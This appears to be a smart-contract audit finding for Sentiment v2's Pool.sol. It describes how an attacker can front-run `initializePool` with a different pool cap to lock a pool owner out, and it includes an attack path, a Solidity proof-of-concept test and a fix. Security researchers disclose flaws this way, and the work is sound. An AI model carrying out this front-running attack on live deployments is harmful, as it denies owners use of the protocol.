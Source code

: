 Polished Raspberry Huskie

Medium

# Any malicious user can bypass pool cap during pool initialization

### Summary

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L562-L598

A missing check in the `initializePool` function will cause a denial of service for the pool owner as a malicious user can frontrun their pool initialization transaction and create the pool with the same parameters, effectively blocking the pool owner from initializing their desired pool. Even if the pool owner set the pool cap back to what he wanted, it will block him to do anything and to create the same pool.

### Root Cause

In the `initializePool` function, there is no mechanism to prevent another user from initializing a pool with the same owner, asset, and `rateModelKey`, but with a different `poolCap`. The pool ID is derived solely from `owner`, `asset`, and `rateModelKey`, so if a malicious user calls `initializePool` with the same values for these parameters, the pool owner can be front run with a different `poolCap`.

### External pre-conditions

1. The `poolOwner` must be planning to initialize a new pool with a small `poolCap`. This vulnerability can be easily fixed by the `poolOwner` if `poolCap` is `type(uint256).max` for example. The `poolOwner` just have to set back the `poolCap` to `type(uint256).max` in this case
2. The `maliciousUser` must monitor and detect the pool initialization transaction from the `poolOwner`.

### Attack Path

1. The `protocolOwner` sets the `rateModel` for the given `RATE_MODEL_KEY` using the `setRateModel()` function.
2. The `poolOwner` attempts to initialize a new pool by calling `initializePool` with their desired `owner`, `asset`, `poolCap`, and `rateModelKey`.
3. The `maliciousUser`, monitoring the network, detects this transaction and frontruns it by calling `initializePool` with the same `owner`, `asset`, and `rateModelKey`, but with a higher `poolCap`.
4. The `maliciousUser` successfully creates the pool, blocking the `poolOwner` from initializing their desired pool, as the pool ID is already taken.
5. The `maliciousUser` deposits an amount exceeding the pool cap intended by the `poolOwner`.
6. When the `poolOwner` attempts to initialize the pool again, the transaction reverts due to the pool already being initialized.
7. The `poolOwner` tries to reset the `poolCap` to their desired value, but since the pool is already at or above this cap, no further deposits can be made.
8. The `poolOwner` cannot create any other pool with the same asset and rate model, as the pool ID is already taken, effectively locking them out of the protocol for this asset and rate model.

### Impact

The pool owner suffers a complete denial of service, as they cannot initialize their desired pool or any other pool with the same asset and rate model. This prevents the pool owner from using the protocol as intended.

### PoC

Add this function to the Pool.t.sol test file:
```solidity
    function testPOC() public {
        address maliciousUser = makeAddr("maliciousUser");
        address rateModel = address(new LinearRateModel(1e18, 2e18));
        bytes32 RATE_MODEL_KEY = 0xc6e8fa81936202e651519e9ac3074fa4a42c65daad3fded162373ba224d6ea96;
        vm.prank(protocolOwner);
        registry.setRateModel(RATE_MODEL_KEY, rateModel);
        uint256 poolId = uint256(keccak256(abi.encodePacked(poolOwner, asset1, RATE_MODEL_KEY)));

        //The pool owner try to intiliaze a new pool.
        //vm.prank(poolOwner);
        //uint256 id = pool.initializePool(poolOwner, address(asset1), 100e18, RATE_MODEL_KEY);

        //But seeing this transaction coming, the malicious user front run it with the same params, except the poolCap
        //Initial pool cap was 100e18 --> 1000e18

        vm.startPrank(maliciousUser);
        pool.initializePool(poolOwner, address(asset1), 1000e18, RATE_MODEL_KEY);

        //Then, malicious user also deposit more than initial pool cap
        asset1.mint(maliciousUser, 200e18);
        asset1.approve(address(pool), 200e18);
        pool.deposit(poolId, 200e18, maliciousUser);
        vm.stopPrank();

        //Then, the inital user transaction is revert due to front run
        vm.startPrank(poolOwner);
        vm.expectRevert(abi.encodeWithSelector(Pool.Pool_PoolAlreadyInitialized.selector, uint256(keccak256(abi.encodePacked(poolOwner, asset1, RATE_MODEL_KEY)))));
        pool.initializePool(poolOwner, address(asset1), 100e18, RATE_MODEL_KEY);
        vm.stopPrank();

        //Seeing this, the poolOwner decides to set the pool cap to what he initially wanted
        vm.prank(poolOwner);
        pool.setPoolCap(poolId, 100e18);

        //But this will have the effect to block new deposits since poolCap is already reached
        
        //Moreover poolOwner can't create a new pool since pool each owner can only create one pool with this asset and this rate model
    }
```

### Mitigation

To mitigate this issue, the msg.sender should be the `poolOwner`.

In the case where the `poolOwner` is not `msg.sender`, the `poolOwner` can be set just after by the `msg.sender`.